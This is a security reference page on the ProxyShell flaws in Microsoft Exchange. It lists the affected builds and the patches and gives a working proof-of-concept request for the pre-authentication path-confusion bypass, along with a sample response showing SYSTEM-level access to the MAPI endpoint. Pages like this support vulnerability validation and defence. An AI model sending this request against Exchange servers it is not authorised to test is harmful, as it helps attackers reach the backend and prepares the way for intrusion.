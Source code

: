 icon:fontawesome/solid/unlock-keyhole

# CVE-2021-34473

CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207 | ProxyShell

CVE-2021-34473 Pre-auth path confusion vulnerability to bypass access control Patched in KB5001779, released in April

CVE-2021-34523 Privilege elevation vulnerability in the Exchange PowerShell backend Patched in KB5001779, released in April

CVE-2021-31207 Post-auth remote code execution via arbitrary file write Patched in KB5003435, released in May

This vulnerability affects:

- Exchange 2013 CU23 < 15.0.1497.15
- Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5
- Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9

## Examples

##### Validating POC

```bash
https://<<ip>>/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

```bash
GET /autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com HTTP/1.1
Host: exch.offsec.nl
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
```

```bash
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html
Server: Microsoft-IIS/8.5
request-id: af2ae0ee-6593-4523-8fa1-5d283d7ae3da
X-CalculatedBETarget: exch.offsec.nl
X-ServerApplication: Exchange/15.01.1913.012
X-DiagInfo: EXCH
X-BEServer: EXCH
X-AspNet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Sun, 25-Aug-1991 07:43:18 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-FEServer: EXCH
Date: Wed, 25 Aug 2021 07:43:17 GMT
Connection: close
Content-Length: 522

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.1913.12<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> exch.offsec.nl<br><b>Mailbox:</b> exch.offsec.nl</p><p><br><br><br><b>Created:</b> 25-8-2021 07:43:18</p></body></html>
```

## References

- [Zerodayinitiative.com - From Pwn2Own 2021: A New Attack Surface on Microsoft Exchange - ProxyShell!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
- [News.sophos.com - ProxyShell vulnerabilities in Microsoft Exchange What to do](https://news.sophos.com/en-us/2021/08/23/proxyshell-vulnerabilities-in-microsoft-exchange-what-to-do/)
